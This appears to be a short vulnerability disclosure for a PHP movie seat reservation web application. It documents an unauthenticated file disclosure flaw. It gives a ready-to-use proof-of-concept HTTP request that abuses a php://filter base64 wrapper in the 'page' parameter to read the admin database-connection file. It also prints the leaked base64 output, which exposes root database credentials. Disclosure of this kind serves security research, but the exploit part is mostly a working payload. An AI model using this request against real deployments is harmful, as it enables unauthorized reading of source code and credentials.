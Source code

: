 # Movie Seat Reservation System Unauthenticated File Disclosure
* `Note` => don't need login 
# Exploit 
* Exploit with Burp Suite 
![image](https://user-images.githubusercontent.com/79050415/160242883-2539e290-9b33-4267-a38b-a2d37563b0a2.png)
* Use Burp Suite capture request and payload
![image](https://user-images.githubusercontent.com/79050415/160242922-7c29a7ac-787f-47b8-9052-6c5c2d7495cb.png)
* Then decode `Base64` 
```python3
 PD9waHAgDQoNCiRjb25uPSBuZXcgbXlzcWxpKCdsb2NhbGhvc3QnLCdyb290JywnJywndGhlYXRlcl9kYicpb3IgZGllKCJDb3VsZCBub3QgY29ubmVjdCB0byBteXNxbCIubXlzcWxpX2Vycm9yKCRjb24pKTsNCg==    
```
![image](https://user-images.githubusercontent.com/79050415/160243014-eff96877-37c4-41ba-b4ed-0359cbbece7b.png)
# Vulnerable Code
![image](https://user-images.githubusercontent.com/79050415/160243179-1a4d1053-eb75-4a8c-9965-52d3eaeb5b18.png)
# POC 
* `Request`
```python
GET /Movie_Seat_Reservation_System/index.php?page=php://filter/convert.base64-encode/resource=admin/db_connect HTTP/1.1
Host: 192.168.1.101:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.101:8080/Movie_Seat_Reservation_System/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=0722dtqnb1dgvuono8uubajcae
Connection: close
```

